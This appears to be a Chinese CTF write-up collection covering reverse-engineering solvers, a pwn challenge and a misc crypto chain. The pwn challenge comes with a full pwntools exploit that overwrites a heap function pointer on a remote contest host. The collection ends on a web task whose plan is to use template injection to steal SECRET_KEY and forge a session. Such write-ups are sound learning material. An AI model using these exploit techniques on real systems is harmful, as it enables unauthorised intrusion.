for i, b in enumerate(passcode_bytes):
    eax = (b << ((i & 3) * 8)) & 0xffffffff
    eax ^= edi
    eax = (eax + esi) & 0xffffffff
    esi = (esi + 0x045D9F3B) & 0xffffffff
    eax = rol32(eax, 5)
    edi = eax ^ 0x7F4A7C15

seed = eax ^ 0xBF4BAC18
```

代入口令后得到：

```text
0x8887cf28
```

随后程序用这个种子驱动 `xorshift32`，每 4 字节刷新一次状态，再和递增掩码异或解密 `.rodata` 中的 flag 密文：

```text
9d270153e1de3787561d569097d80ab42ed5a79b67e355a915f33bcfe93e6d5707af
```

解码公式可以写成：

```python
def xorshift32(x):
    x ^= (x << 13) & 0xffffffff
    x ^= (x >> 17) & 0xffffffff
    x ^= (x << 5) & 0xffffffff
    return x & 0xffffffff


eax = seed
edi = 0x42

for i, enc in enumerate(flag_data):
    if (i & 3) == 0:
        eax = xorshift32(eax)
    out[i] = enc ^ (edi & 0xff) ^ ((eax >> ((i & 3) * 8)) & 0xff)
    edi += 0x0d
```

最终可解出静态 flag。

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x -y nebula_patch.zip -oevidence
python .\scripts\solve.py
```

#### 完整关键代码

```python
from pathlib import Path


PASS_TARGET = bytes.fromhex("048eb388fa73d91f81048b0caa3a56a13785")
FLAG_DATA = bytes.fromhex(
    "9d270153e1de3787561d569097d80ab42ed5a79b67e355a915f33bcfe93e6d5707af"
)


def rol8(value: int, count: int) -> int:
    value &= 0xFF
    count &= 7
    return ((value << count) | (value >> (8 - count))) & 0xFF


def ror8(value: int, count: int) -> int:
    value &= 0xFF
    count &= 7
    return ((value >> count) | (value << (8 - count))) & 0xFF


def rol32(value: int, count: int) -> int:
    value &= 0xFFFFFFFF
    count &= 31
    return ((value << count) | (value >> (32 - count))) & 0xFFFFFFFF


def recover_passcode() -> str:
    acc = 0x6D
    r9 = 0x67
    r10 = 0x17
    recovered = []

    for index, target in enumerate(PASS_TARGET):
        z = acc ^ target
        y = (z - (r10 & 0xFF)) & 0xFF
        plain = ror8(y, (index % 6) + 1) ^ (r9 & 0xFF)
        recovered.append(plain)

        tmp = rol8(plain ^ (r9 & 0xFF), (index % 6) + 1)
        tmp = (tmp + (r10 & 0xFF)) & 0xFF
        acc ^= tmp
        r9 += 0x0B
        r10 += 0x17

    return bytes(recovered).decode("ascii")


def derive_seed(passcode: str) -> int:
    esi = 0x9E3779B9
    edi = 0x4E42554C
    eax = 0

    for index, byte in enumerate(passcode.encode("ascii")):
        eax = ((byte << ((index & 3) * 8)) & 0xFFFFFFFF) ^ edi
        eax = (eax + esi) & 0xFFFFFFFF
        esi = (esi + 0x045D9F3B) & 0xFFFFFFFF
        eax = rol32(eax, 5)
        edi = eax ^ 0x7F4A7C15

    return eax ^ 0xBF4BAC18


def xorshift32(value: int) -> int:
    value ^= (value << 13) & 0xFFFFFFFF
    value ^= (value >> 17) & 0xFFFFFFFF
    value ^= (value << 5) & 0xFFFFFFFF
    return value & 0xFFFFFFFF


def decode_flag(seed: int) -> str:
    eax = seed
    edi = 0x42
    output = bytearray()

    for index, item in enumerate(FLAG_DATA):
        if (index & 3) == 0:
            eax = xorshift32(eax)
        key_byte = (eax >> ((index & 3) * 8)) & 0xFF
        output.append(item ^ (edi & 0xFF) ^ key_byte)
        edi += 0x0D

    return output.decode("ascii")


def main() -> None:
    passcode = recover_passcode()
    seed = derive_seed(passcode)
    flag = decode_flag(seed)

    print(f"binary  = {Path(__file__).resolve().parent.parent / 'evidence' / 'nebula_patch'}")
    print(f"passcode= {passcode}")
    print(f"seed    = 0x{seed:08x}")
    print(f"flag    = {flag}")


if __name__ == "__main__":
    main()
```

#### 验证输出

复现脚本输出：

```text
binary  = C:\Users\glj07\Desktop\Codex工作区\Writeup\CTF\ZeroG\Reverse\Re_03.Nebula Patch\evidence\nebula_patch
passcode= Nebula-7F3A-Vector
seed    = 0x8887cf28
flag    = flag{ZeroG_nebula_patch_antidebug}
```

#### 知识点总结

这题的关键是先判断哪些逻辑真的在产出结果，哪些只是反分析噪声。`ptrace` 和 `TracerPid` 检查虽然存在，但不会改变静态还原的核心路径；真正有价值的是那条逐字节可逆的校验链和最后的 `xorshift32` 解码过程。把这两部分拆开，题目就会变得非常直。

#### 最终 flag

```text
flag{ZeroG_nebula_patch_antidebug}
```

### Re_04.Nebula VM / 星云虚拟机

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Reverse |
| 题目名称 | Re_04.Nebula VM / 星云虚拟机 |
| 附件 | `nebula_vm.zip` |
| 附件 SHA256 | 5B6D47A5A9EBA7B49C092F72A303224DE2EF81C6A6AF3CA70D9E8022BC00EBC9 |
| Flag 类型 | 静态 flag |
| Flag 格式 | `flag{...}` |

题面说工程师没有把校验逻辑直接写进程序，而是做了一个很小的自定义虚拟机，把 passcode 校验编译成 bytecode 存在程序里，而且 bytecode 还是加密存储。Fen 给出的提示是“真正的规则不在汇编里，而在星云自己的指令集中”，这基本就把分析重点明确成了两步：先还原 VM 解释器，再还原 bytecode。

#### 解题思路

附件里只有一个很小的 Linux ELF，可执行文件被 strip，但体积只有 14KB 左右。像这种体量的 VM 题，先看主函数和 `.rodata` 通常就够了，不一定非要一开始就上重型反编译器。

程序启动后会读入一行口令，并要求长度恰好为 20 字节。随后会从 `.rodata + 0x160` 取出一段长度为 `0x1f5` 的加密数据，并在进入 VM 前执行如下解密逻辑：

```c
key = 0xffffffa9;
for (i = 0; i < 0x1f5; i++) {
    out[i] = enc[i] ^ (key & 0xff) ^ (i >> 1);
    key += 0x25;
}
```

这一步说明题面中提到的“加密存储 bytecode”并不复杂，本质上就是一个递增常量混合索引的逐字节异或流。把这 0x1f5 字节解开后，就能拿到完整 VM 程序。

#### 技术实施

继续看解释器主循环，可以确认 VM 程序从 offset 0 开始执行。每条正常指令都是 3 字节，只有终止指令是单字节 `0xff` 或 `0xfe`。解释器通过 jump table 分发 opcode，最终真正实现的只有极少数几条：

```text
0x11: LOAD  reg, input[idx]
0x20: XORI  reg, imm
0x21: ADDI  reg, imm
0x22: ROLI  reg, imm
0x23: XORR  reg_dst, reg_src
0x30: CMPI  reg, imm
0x31: JZ    rel16
0x40: MOV   reg_dst, reg_src
0xff: HALT_BAD
0xfe: HALT_OK
```

解释器内部有 `regs[8]` 这组寄存器槽，但实际 bytecode 只用到了 `reg0` 和 `reg1`。而且在进入 VM 之前，程序会先把 `reg1` 预置为 `0xa7`。这一点很关键，因为它决定了第一轮校验的初始状态。

把解密后的 bytecode 按 3 字节一条拆开后，会看到 20 轮几乎完全相同的模板，每轮对应校验输入的一个字符：

```text
LOAD reg0, idx
XORI reg0, const1
ROLI reg0, rot
ADDI reg0, const2
XORR reg0, reg1
CMPI reg0, target
JZ +1
HALT_BAD
MOV reg1, reg0
```

翻译成高层逻辑，就是：

```text
reg0 = rol8((input[idx] ^ const1), rot)
reg0 = (reg0 + const2) & 0xff
reg0 ^= reg1
assert reg0 == target
reg1 = reg0
```

这里 `target` 全都直接写死在 bytecode 里，`reg1` 又是链式从上一轮传到下一轮，因此整个 passcode 可以逐字节逆推。只要按每轮反向执行：

```text
input[idx] = ror8((target ^ reg1_prev - const2) mod 256, rot) ^ const1
```

就能恢复全部 20 个字符。

最终倒推出的 passcode 是：

```text
VM-NEBULA-ORBIT-9A7C
```

把这串口令喂给原程序后，程序成功进入通过分支并打印静态 flag。

#### 关键命令

最终复现只需要运行恢复脚本：

```powershell
python scripts\solve.py
```

如果只看最关键的本地验证命令，也可以直接把恢复出的 passcode 喂给 ELF：

```bash
printf '%s\n' 'VM-NEBULA-ORBIT-9A7C' | ./nebula_vm
```

#### 完整关键代码

```python
from pathlib import Path
import re
import subprocess


BASE_DIR = Path(__file__).resolve().parent.parent
BIN_PATH = BASE_DIR / "evidence" / "src" / "nebula_vm"
OUT_DIR = BASE_DIR / "outputs"


ENC_OFFSET = 0x2160
ENC_LEN = 0x1F5
KEY_START = 0xFFFFFFA9


def rol8(x: int, n: int) -> int:
    x &= 0xFF
    n &= 7
    return ((x << n) | (x >> (8 - n))) & 0xFF


def ror8(x: int, n: int) -> int:
    x &= 0xFF
    n &= 7
    return ((x >> n) | ((x << (8 - n)) & 0xFF)) & 0xFF


def decrypt_vm_code(binary: bytes) -> bytes:
    enc = binary[ENC_OFFSET : ENC_OFFSET + ENC_LEN]
    key = KEY_START
    out = bytearray()
    for i, b in enumerate(enc):
        out.append((b ^ (key & 0xFF) ^ (i >> 1)) & 0xFF)
        key = (key + 0x25) & 0xFFFFFFFF
    return bytes(out)


def recover_passcode() -> str:
    targets = [
        0x4C, 0xEB, 0x7C, 0xD7, 0x75,
        0xB0, 0x48, 0xD9, 0x81, 0x2F,
        0x31, 0x0F, 0x61, 0x1C, 0x16,
        0x62, 0x9C, 0x4C, 0xF4, 0xE3,
    ]

    prev = 0xA7
    out = []
    for i, target in enumerate(targets):
        xori = (0x09 + 0x11 * i) & 0xFF
        rot = (i % 7) + 1
        addi = (0x2D + 0x1D * i) & 0xFF

        v = target ^ prev
        v = (v - addi) & 0xFF
        ch = ror8(v, rot) ^ xori

        out.append(ch)
        prev = target

    return bytes(out).decode("ascii")


def run_binary(passcode: str) -> str:
    wsl_bin = "/mnt/c" + str(BIN_PATH).replace("C:", "").replace("\\", "/")
    cmd = f"printf '%s\\n' '{passcode}' | '{wsl_bin}'"
    proc = subprocess.run(
        ["wsl", "sh", "-lc", cmd],
        capture_output=True,
        text=True,
        check=False,
    )
    return proc.stdout


def main() -> None:
    OUT_DIR.mkdir(exist_ok=True)

    binary = BIN_PATH.read_bytes()
    vm_code = decrypt_vm_code(binary)
    (OUT_DIR / "vm_code.bin").write_bytes(vm_code)

    passcode = recover_passcode()
    (OUT_DIR / "passcode.txt").write_text(passcode, encoding="utf-8")

    output = run_binary(passcode)
    (OUT_DIR / "run_output.txt").write_text(output, encoding="utf-8")

    match = re.search(r"flag\{[^}]+\}", output)
    if not match:
        raise RuntimeError("flag not found in program output")

    print(f"passcode = {passcode}")
    print(f"flag = {match.group(0)}")


if __name__ == "__main__":
    main()
```

#### 验证输出

恢复脚本输出：

```text
passcode = VM-NEBULA-ORBIT-9A7C
flag = flag{ZeroG_nebula_vm_checker}
```

把 passcode 直接喂给原程序，也能得到成功输出：

```text
ZeroG Nebula VM
Enter passcode: [+] VM accepted.
[+] Flag: flag{ZeroG_nebula_vm_checker}
```

#### 知识点总结

这题最值得记住的点，是 VM 题并不一定要把所有汇编都硬翻成大段伪代码。像这种只有十几 KB 的小 ELF，真正有价值的信息往往集中在三处：输入长度检查、嵌入数据的解密逻辑、opcode 跳表。把这三块先捞出来，很多时候就足够写出高层恢复脚本。

第二个关键点是把“解释器语义”和“bytecode 结构”拆开看。解释器告诉我们每条指令做什么，bytecode 告诉我们这些指令怎么被组织。如果发现 bytecode 只是重复固定模板，那就不用真的做完整 VM 执行器，直接按模板倒推约束通常更省力。

题面提到的 xorshift 也确实存在，不过它只出现在成功分支里用于处理最终输出。真正决定 passcode 的是前面的 VM 校验链。先把 passcode 解出来，再让程序自己走成功路径打印静态 flag，往往是最干净的收尾方式。

#### 最终 flag

```text
flag{ZeroG_nebula_vm_checker}
```

### Re_05.Android Re: Docking Station

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Reverse |
| 题目名称 | Re_05.Android Re: Docking Station |
| 附件 | `app-debug.apk` |
| 附件 SHA256 | B8709D0F5E86FFD6FCCAD35C08E4C9ED7A6E5F2A29AD6ACCE62852136F01AA19 |
| Flag 类型 | 静态 flag |
| Flag 格式 | `flag{...}` |

题面说 ZeroG 停靠站只接受一串正确的 docking code，APK 会在本地验证输入并不会联网。这个描述基本把方向锁定在 Android 本地逆向：先看 Activity 输入处理，再找真正的校验函数。

#### 解题思路

先把 APK 解压，能看到多个 DEX 和一组 `libnative-lib.so`：

```text
classes3.dex
classes4.dex
classes5.dex
lib/arm64-v8a/libnative-lib.so
lib/x86/libnative-lib.so
lib/x86_64/libnative-lib.so
lib/armeabi-v7a/libnative-lib.so
```

用字符串和符号表先扫 native 库，x86_64 版本中能直接看到 JNI 导出符号：

```text
Java_com_zerog_re_MainActivity_checkFlagCore
```

这说明 Java 层大概率只是做界面和简单预检查，真正的 docking code 校验在 native 层。继续用 apktool 反编译 DEX，`MainActivity.smali` 中可以确认 Java 层逻辑非常薄：

```text
basicCheck(s):
    startsWith("flag{")
    endsWith("}")
    length == 30

onClick:
    input.getBytes(UTF_8)
    checkFlagCore(bytes)
```

也就是说传入 JNI 的就是原始 flag 字符串的 UTF-8 字节。由于 flag 全部是 ASCII，字节长度和字符串长度一致，native 中要求长度 30 也正好对应 Java 层检查。

#### 技术实施

反汇编 `lib/x86_64/libnative-lib.so` 的 `Java_com_zerog_re_MainActivity_checkFlagCore`，可以看到开头先调用 `GetArrayLength`，并要求长度必须等于 `0x1e`。随后通过 `GetByteArrayRegion` 把输入复制到本地缓冲区，再逐字节处理。

核心比较目标表位于 `.rodata` 起始附近，一共 30 字节：

```text
8a fa 1b d4 a0 db 3c ce a1 f7 fa cd 18 5b 85
1b 1b 62 9a ca 1f 57 7d af e7 1c 81 db cb bd
```

每个输入字节会经过四层变换，然后和目标表对应位置比较：

```text
key = 13 * i + 7 * len(data) + 0x42
x = data[i] ^ key
x = x + 17 * i + 0x17
x = rol8(x, (i % 7) + 1)
x = x ^ prev ^ 0xA5
```

其中 `prev` 初始为 `0x3c`，每轮校验成功后更新为当前目标字节。这个结构是顺序链式校验，但每一轮都可逆，因此可以直接从目标表倒推输入字节。反推时把每一轮操作反过来即可：

```text
x = target[i] ^ prev ^ 0xA5
x = ror8(x, (i % 7) + 1)
x = x - 17 * i - 0x17
data[i] = x ^ key
prev = target[i]
```

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x app-debug.apk -ooutputs\apk_unzip -y
wsl apktool d -f app-debug.apk -o outputs/apktool
wsl readelf -Ws outputs/apk_unzip/lib/x86_64/libnative-lib.so | grep -i 'checkFlag\|Java_com'
wsl objdump -d -Mintel --start-address=0x1a760 --stop-address=0x1a9a8 outputs/apk_unzip/lib/x86_64/libnative-lib.so
python scripts\solve.py
```

#### 完整关键代码

```python
from __future__ import annotations


TARGET = bytes.fromhex(
    "8afa1bd4a0db3ccea1f7facd185b851b"
    "1b629aca1f577dafe71c81dbcbbd"
)


def ror8(x: int, r: int) -> int:
    r &= 7
    return ((x >> r) | (x << (8 - r))) & 0xFF


def rol8(x: int, r: int) -> int:
    r &= 7
    return ((x << r) | (x >> (8 - r))) & 0xFF


def native_check(data: bytes) -> bool:
    if len(data) != 30:
        return False

    prev = 0x3C
    for i, b in enumerate(data):
        key = (13 * i + 7 * len(data) + 0x42) & 0xFF
        x = b ^ key
        x = (x + 17 * i + 0x17) & 0xFF
        x = rol8(x, (i % 7) + 1)
        x ^= prev
        x ^= 0xA5
        if x != TARGET[i]:
            return False
        prev = x
    return True


def recover() -> bytes:
    out = bytearray()
    prev = 0x3C
    n = len(TARGET)

    for i, want in enumerate(TARGET):
        x = want ^ prev ^ 0xA5
        x = ror8(x, (i % 7) + 1)
        x = (x - 17 * i - 0x17) & 0xFF
        key = (13 * i + 7 * n + 0x42) & 0xFF
        out.append(x ^ key)
        prev = want

    return bytes(out)


def main() -> None:
    flag = recover()
    print(flag.decode("utf-8"))
    print(f"native_check={native_check(flag)}")


if __name__ == "__main__":
    main()
```

#### 验证输出

运行脚本得到：

```text
flag{ZeroG_android_vm_docking}
native_check=True
```

脚本中的 `native_check` 是按 native 反汇编逻辑重写的本地校验函数。恢复出的字符串再次喂回该函数得到 `True`，说明它可以通过 APK 的核心校验。

#### 知识点总结

Android 逆向题遇到 APK 内含 native 库时，可以先从 Java 层确认输入如何被传入 JNI。这里 Java 层只负责 `flag{}` 格式和长度检查，核心算法完全在 `checkFlagCore([B)Z` 中，因此把精力放在 native 函数上最直接。

native 代码虽然是 stripped 的，但 JNI 导出符号保留了类名和方法名，等于直接给出了入口。反汇编后只要抓住长度检查、目标表地址和逐字节比较逻辑，就能把校验翻译成可逆公式，不需要运行模拟器或做动态调试。

#### 最终 flag

```text
flag{ZeroG_android_vm_docking}
```


## Pwn

### Pwn_03.Orbit Notes / 轨道便签

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Pwn |
| 题目名称 | Pwn_03.Orbit Notes / 轨道便签 |
| 附件 | `orbit_notes.zip` |
| 靶机 | `43.108.37.178:33207` |
| 连接方式 | `nc 43.108.37.178 33207` |
| Flag 类型 | 动态 flag |
| Flag 格式 | `flag{...}` |

题面强调的是堆基础利用、dangling pointer、tcache chunk 复用和函数指针劫持，看起来像是一道典型的 UAF 堆题。实际把二进制拆开之后会发现，这题的确围绕函数指针展开，但利用路径比题面提示得还直接一些。

#### 解题思路

附件里只有一个 ELF 程序，没有额外 libc。先做基础检查，程序为 64 位 Linux ELF，保护是 Full RELRO、NX 开启、No PIE、无 canary，并且没有剥离符号。这个组合对利用很友好，尤其是 No PIE 意味着代码段地址固定，如果程序里存在后门函数，基本可以直接跳。

继续看符号表和反汇编，很快能看到几个关键函数：`create_note`、`delete_note`、`edit_note`、`show_note`，以及一个显眼的 `win`。这已经很像“可控函数指针调用”的题型了。

`create_note` 每次会申请 `0x50` 字节堆块，并在块起始位置写入默认函数指针 `safe_print`。从 `+0x8` 开始才是实际的便签文本。`show_note` 的逻辑非常简单，它会取出这个堆块首地址上的函数指针，然后把整个 note 指针作为参数调用：

```c
fn = *(note + 0x0);
fn(note);
```

如果这里只看到这些，很自然会往题面提示的方向想，也就是通过删除后残留指针，配合 tcache 复用去构造 UAF 劫持。但这题真正的破口在 `edit_note`。它不是从 `note + 0x8` 开始改内容，而是直接执行：

```c
read(0, note, 0x50);
```

也就是说，编辑便签时会从堆块开头整块覆盖，函数指针本身就包含在可写区域里。这样一来，其实根本不需要先走一遍复杂的 dangling pointer 与 chunk 复用流程。只要创建一个 note，再编辑它时把前 8 字节改成 `win` 的地址，随后调用 `show_note`，程序就会直接跳到 `win`。

由于程序没有 PIE，`win` 地址固定。反汇编可见：

```text
win = 0x401341
safe_print = 0x4012fd
```

而 `win` 的功能也很干脆，它会读取环境变量 `GZCTF_FLAG` 并打印，然后 `_exit(0)`。所以这题的最终利用链可以压缩成一句话：覆盖 note 的函数指针为 `win`，再触发显示。

#### 技术实施

先用 `checksec` 和 `readelf` 确认保护与符号信息：

```text
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

关键结构在反汇编里非常清楚。`create_note` 会在新分配的堆块起始处写入：

```text
*(note + 0x0) = 0x4012fd
```

也就是默认显示函数 `safe_print`。

而 `edit_note` 的关键写入逻辑是：

```c
read(0, note, 0x50);
```

这一步直接告诉我们，首 8 字节函数指针完全可以在编辑时被用户输入覆盖。因此构造 payload 时，只需要把前 8 字节写成 `p64(0x401341)`，后面随便补满即可。

本地验证时，触发 `show_note` 后已经能够跳进 `win`，只是由于本地环境没有配置 `GZCTF_FLAG`，所以输出的是：

```text
[+] Orbital admin channel opened.
no flag configured
```

这反而侧面证明控制流劫持已经成功，接下来只需把同样的 payload 发到远端即可读取动态 flag。

远端运行结果如下图所示：



#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe l orbit_notes.zip
wsl file /mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Pwn/Pwn_03.Orbit Notes/outputs/orbit_notes/orbit_notes
wsl checksec --file=/mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Pwn/Pwn_03.Orbit Notes/outputs/orbit_notes/orbit_notes
wsl objdump -d -Mintel /mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Pwn/Pwn_03.Orbit Notes/outputs/orbit_notes/orbit_notes
wsl bash -lc "cd '/mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Pwn/Pwn_03.Orbit Notes' && python3 scripts/solve.py REMOTE"
```

#### 完整关键代码

```python
#!/usr/bin/env python3
from pwn import *


HOST = "43.108.37.178"
PORT = 33207
BIN_PATH = "/mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Pwn/Pwn_03.Orbit Notes/outputs/orbit_notes/orbit_notes"

context.binary = ELF(BIN_PATH, checksec=False)
context.log_level = "info"


def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    return process(context.binary.path)


def menu_choice(io, choice: int):
    io.sendlineafter(b"> ", str(choice).encode())


def create(io, data: bytes):
    menu_choice(io, 1)
    io.sendafter(b"Input note content:\n", data)


def edit(io, index: int, data: bytes):
    menu_choice(io, 3)
    io.sendlineafter(b"Index: ", str(index).encode())
    io.sendafter(b"Input raw note data:\n", data)


def show(io, index: int):
    menu_choice(io, 4)
    io.sendlineafter(b"Index: ", str(index).encode())


def main():
    io = start()

    create(io, b"A" * 8 + b"\n")
    payload = p64(context.binary.symbols["win"]) + b"B" * 0x48
    edit(io, 0, payload)
    show(io, 0)
    output = io.recvall(timeout=3)
    print(output.decode("latin-1", errors="replace"))


if __name__ == "__main__":
    main()
```

#### 验证输出

本地运行时可以看到控制流已经成功劫持到 `win`：

```text
[+] Orbital admin channel opened.
no flag configured
```

远端运行则会输出真实动态 flag：

```text
[+] Orbital admin channel opened.
flag{8383d96d-14e2-4036-8a41-a0af52e819ef}
```

这同时验证了两件事。一方面，函数指针覆盖路径是正确的；另一方面，`win` 读取的是比赛环境中注入的 `GZCTF_FLAG`，因此不需要额外 ROP 或 libc 利用链。

#### 知识点总结

这题很适合提醒自己，不要被题面提示完全绑定思路。题面里提到的 dangling pointer 和 tcache chunk 复用并不算错，它们确实能引导到“函数指针可能被 UAF 劫持”这个方向。但真正拆开程序之后，会发现 `edit_note` 已经给了更直接的写原语，足够原地覆盖函数指针。

做 Pwn 题时，题面提示通常只是大方向，最后还是要回到具体读写边界上来。如果一个结构体里第一个字段就是函数指针，而编辑逻辑又直接从结构体首地址开始写，那么利用复杂度往往会瞬间下降。

另外，这题也体现了 No PIE 的价值。只要代码地址固定，像 `win` 这样的后门函数就可以被直接当作目标地址，不需要先做地址泄露，整体利用链会短得非常舒服。

#### 最终 flag

```text
flag{8383d96d-14e2-4036-8a41-a0af52e819ef}
```


## Misc

### Misc_01.StarTrail / 星轨校验

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Misc |
| 题目名称 | Misc_01.StarTrail / 星轨校验 |
| 附件 | `zerog_startrail.zip` |
| Flag 格式 | `flag{...}` |

题面给出的线索非常集中：日志里有 `ZGST-xx/yy` 星轨片段，按序号排序后尝试常见编码和压缩格式；同时 Pwnstars 的五名成员和官网域名可能用于派生密钥。也就是说，本题不是图片隐写或文件雕刻，而是一条“日志片段重组、压缩解包、密钥派生、流加密解密”的组合链。

#### 解题思路

附件解压后有三个文件：`ground_control.log`、`telemetry.bin` 和 `README.txt`。其中 `ground_control.log` 是主要线索来源，日志里散落着 11 段形如 `ZGST-xx/11:<data>` 的片段。由于片段编号从 `01/11` 到 `11/11`，很自然先按编号排序，再拼接数据部分。

拼接后的字符串以 `eJw` 开头，这是 zlib 压缩数据经过 base64 编码后很常见的开头。于是先做 base64 解码，再做 zlib 解压，得到一段 JSON 元数据：

```json
{
  "mission": "ZeroG-CTF First Launch",
  "lab": "Pwnstars",
  "crew": ["N1", "A", "Hugo", "Gnaw", "Fen"],
  "domain": "www.pwnstars.online",
  "nonce": "5a45524f472d3031",
  "cipher": "xorstream-sha256-ctr",
  "kdf": "sha256('Pwnstars::' + '-'.join(crew) + '::' + domain)",
  "note": "Fen says: the trail gives order, the team gives key."
}
```

这里正好解释了题面那句“轨迹会告诉你顺序，队伍会告诉你钥匙”。轨迹顺序就是 `ZGST` 的编号顺序，队伍顺序就是 `crew` 里的五名成员顺序。密钥派生输入应为：

```text
Pwnstars::N1-A-Hugo-Gnaw-Fen::www.pwnstars.online
```

对这个字符串做 SHA256 得到流加密密钥。`nonce` 是十六进制字符串 `5a45524f472d3031`，转成 ASCII 正好是 `ZEROG-01`。题目给出的算法名是 `xorstream-sha256-ctr`，实测可用的流生成方式为：

```text
keystream_block = sha256(key || nonce || counter_be32)
```

把连续生成的 keystream 与 `telemetry.bin` 异或，就能还原遥测明文。明文中还藏了一层最终字段：

```text
FINAL=c3ludHtNcmViVF9mZ25lZ2Vudnlfc2Viel9jamFmZ25lZn0=
```

这串看起来仍然是 base64。解码后得到：

```text
synt{MrebT_fgnegenvy_sebz_cjafgnef}
```

其中 `synt` 是 `flag` 的 ROT13 形式，因此整串再做 ROT13，最终得到 flag。

#### 技术实施

先提取并重组日志片段。日志片段不是按顺序出现的，所以不能直接按文件顺序拼接，必须用 `ZGST-xx/11` 中的 `xx` 排序。排序拼接后进行 base64 与 zlib 解码：

```python
parts = {}
for idx, total, data in re.findall(r"ZGST-(\d+)/(\d+):([A-Za-z0-9+/=]+)", text):
    parts[int(idx)] = data

joined = "".join(parts[i] for i in range(1, max(parts) + 1))
raw = base64.b64decode(joined)
meta = json.loads(zlib.decompress(raw).decode())
```

拿到元数据后，根据 `kdf` 生成密钥：

```python
kdf_input = "Pwnstars::" + "-".join(meta["crew"]) + "::" + meta["domain"]
key = hashlib.sha256(kdf_input.encode()).digest()
nonce = bytes.fromhex(meta["nonce"])
```

之后按 SHA256 CTR 方式生成密钥流并异或密文：

```python
block = hashlib.sha256(key + nonce + counter.to_bytes(4, "big")).digest()
```

解密出的遥测明文和最终 flag 如下图所示：



#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe l zerog_startrail.zip
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x evidence\zerog_startrail.zip -ooutputs\unpack -y
python scripts\solve.py
```

#### 完整关键代码

```python
#!/usr/bin/env python3
from __future__ import annotations

import base64
import codecs
import hashlib
import json
import re
import zlib
from pathlib import Path


BASE = Path("outputs/unpack/zerog_startrail")
LOG_PATH = BASE / "ground_control.log"
TELEMETRY_PATH = BASE / "telemetry.bin"


def recover_metadata() -> dict:
    text = LOG_PATH.read_text(encoding="utf-8")
    parts = {}
    for idx, total, data in re.findall(r"ZGST-(\d+)/(\d+):([A-Za-z0-9+/=]+)", text):
        parts[int(idx)] = data

    joined = "".join(parts[i] for i in range(1, max(parts) + 1))
    raw = base64.b64decode(joined)
    meta = zlib.decompress(raw).decode()
    return json.loads(meta)


def xorstream_sha256_ctr(ciphertext: bytes, key: bytes, nonce: bytes) -> bytes:
    keystream = bytearray()
    counter = 0
    while len(keystream) < len(ciphertext):
        block = hashlib.sha256(key + nonce + counter.to_bytes(4, "big")).digest()
        keystream.extend(block)
        counter += 1
    return bytes(c ^ k for c, k in zip(ciphertext, keystream))


def main() -> None:
    meta = recover_metadata()
    crew = meta["crew"]
    domain = meta["domain"]
    nonce = bytes.fromhex(meta["nonce"])

    kdf_input = "Pwnstars::" + "-".join(crew) + "::" + domain
    key = hashlib.sha256(kdf_input.encode()).digest()

    ciphertext = TELEMETRY_PATH.read_bytes()
    plaintext = xorstream_sha256_ctr(ciphertext, key, nonce).decode("utf-8")

    final_b64 = re.search(r"FINAL=([A-Za-z0-9+/=]+)", plaintext)
    if not final_b64:
        raise RuntimeError("FINAL payload not found")

    stage2 = base64.b64decode(final_b64.group(1)).decode()
    flag = codecs.decode(stage2, "rot_13")

    print("[metadata]")
    print(json.dumps(meta, ensure_ascii=False, indent=2))
    print()
    print("[telemetry plaintext]")
    print(plaintext)
    print()
    print("[final]")
    print(flag)


if __name__ == "__main__":
    main()
```

#### 验证输出

脚本运行后先打印出解压得到的元数据，确认 `crew`、`domain`、`nonce`、`cipher` 和 `kdf` 都来自日志重组结果。随后打印解密出的遥测明文，其中包含：

```text
FINAL=c3ludHtNcmViVF9mZ25lZ2Vudnlfc2Viel9jamFmZ25lZn0=
```

最终 base64 解码加 ROT13 后输出：

```text
flag{ZeroG_startrail_from_pwnstars}
```

#### 知识点总结

这题的第一层关键是不要被日志里的噪声行干扰。`ZGST-xx/yy` 已经给出了明确的分片编号，所以重组时应该按编号排序，而不是按日志时间或文件出现顺序盲拼。

第二层关键是识别 `eJw` 这类 zlib 压缩数据的 base64 特征。压缩层解开后，题目直接给出算法名、KDF 公式、队伍顺序、官网域名和 nonce，后续就变成严格照说明实现的流加密解密。

最后一层的 `synt{...}` 是 ROT13 后的 `flag{...}`，这种小尾巴常见于 Misc 题的最终混淆。看到 flag 结构整体可读但字母偏移时，可以顺手试 ROT13。

#### 最终 flag

```text
flag{ZeroG_startrail_from_pwnstars}
```


## Web

### Web_01.Space Notes / 星际便签

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Web |
| 题目名称 | Web_01.Space Notes / 星际便签 |
| 题目地址 | `http://43.108.37.178:33055` |
| 题面提示 | 预览功能会把用户输入当作模板渲染，可以先取 `SECRET_KEY` 再尝试伪造 session |
| Flag 格式 | `flag{...}` |

题面已经把方向点得很明确，这就是一道 Flask/Jinja2 模板注入题。表面上目标是拿管理员权限，但真正需要留意的是题目强调读取动态 flag，而动态 flag 很多时候不会老老实实写在页面模板里。

#### 解题思路

先正常登录系统。这个站没有密码校验，只要提交一个用户名就能进入普通用户界面。登录后可以访问 `/note/new`，页面里除了保存便签的表单，还能看到一个 `Template Preview` 区域，它会把输入提交到 `/preview`。

